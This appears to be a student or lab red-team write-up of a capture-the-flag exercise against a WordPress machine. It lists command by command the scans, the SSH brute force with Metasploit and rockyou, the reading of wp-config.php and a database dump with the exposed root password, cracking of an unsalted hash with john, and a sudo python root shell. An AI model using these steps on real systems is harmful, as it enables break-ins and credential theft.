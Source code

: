 # Red Team: Summary of Operations
## Table of Contents
- Exposed Services
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```
![nmap scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
- Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WordPress site
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

### Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

-----
### `flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - WPscan to enumerate users on Target 1
  - Brute force attacking a weak password
      
#### Method
First we enumerated the user accounts by exploiting the vulnerable WordPress site using wpscan.
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
![wpscan](images/wpscan_user.png)
```
$ msfconsole
```
```
> search ssh_login
```
![ssh_login](images/search_ssh_login.png)

```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
![msfconsole](images/msfconsole_ssh_login.png)
```
> exit -y
```
```
$ ssh michael@192.168.1.110
```
![SSH Michael](images/ssh_michael.png)
```
$ grep -rnw / -e “flag1” 2> /dev/null
```
![flag1](images/flag1z.png)

-----
### `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
Using the existing access we were able to locate the second flag using the following command:
```
$ find / -iname “flag2*” 2> /dev/null
```
```
cat /var/www/flag2.txt
```
-----
### `flag3`: afc01ab56b50591e7dccf93122770cd2

#### Exploit Used
  - Same exploit used to obtain flag 1
  - 
#### Method
```
$ cat /var/www/html/wordpress/wp-config.php
```
```
$ mysqldump wordpress -u root -pR@v3nSecurity > dump
```
```
$ grep “flag3” dump
```

Note: flag4 was found here in addition to the next step

-----
### `flag4`: 715dea6c055b9fe3337544932f2941ce

#### Exploit Used
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

#### Method
```
$ mysql wordpress --user=root -pR@v3nSecurity
```
```
>  select * from wp_users;
```
```
> exit
```
```
$ exit
```
```
$ echo "steven:\$P\$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/" > hash.txt
```
```
$ john hash.txt
```
```
$ ssh steven@192.168.1.110
```
```
$ sudo -l
```
```
$ sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
```
$ find / -iname "flag4*" 2> /dev/null
```
```
$ cat /root/flag4.txt
```

-----



